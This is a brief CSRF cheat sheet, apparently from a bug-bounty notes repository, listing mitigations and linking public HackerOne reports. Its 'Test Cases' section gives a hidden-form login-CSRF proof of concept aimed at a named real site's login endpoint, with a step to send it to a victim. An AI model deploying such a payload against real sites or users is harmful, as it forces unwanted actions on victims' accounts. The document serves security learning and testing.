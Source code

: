 # CSRF

>Cross Site Request Forgery is an attack that forces an end user to execute unwanted action on a web application in which they are currently authenticated.

## Prerequisites:
> User should have active session.

## Mitigation

1. CSRF Token: Token is added in hidden form field, unique per session, large random value.
1. Synchronizer Token Pattern
2. Encryption Based Token Pattern
3. Hash Based Token Pattern
4. Same Site Cookie Attribute
5. Double Submit Cookie (Cookie & request parameter).
6. Re-authentication, One-time token, Captcha (Strong CSRF defense).

## Test Cases:


* Create a CSRF login POC using the following code.
```
<html>
<body>
<form action="https://unikrn.com/apiv1/login" method="POST">
<input type="hidden" name="usr" value="[email]">
<input type="hidden" name="pwd" value="[password]">
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```
* Replace the email and password with the valid credentials.
* Send the script to the victim to make them click.

## Example/POC :

* [CSRF logs the victim into attacker's account](https://hackerone.com/reports/339352)
* [CSRF: add item to victim's cart automatically (starbucks.com - updatecart)](https://hackerone.com/reports/177472)
* [login csrf in analytics.mopub.com](https://hackerone.com/reports/577920)
* [CSRF at (Apply to this program) that lead to submit your request automatic with out any validations](https://hackerone.com/reports/334253)
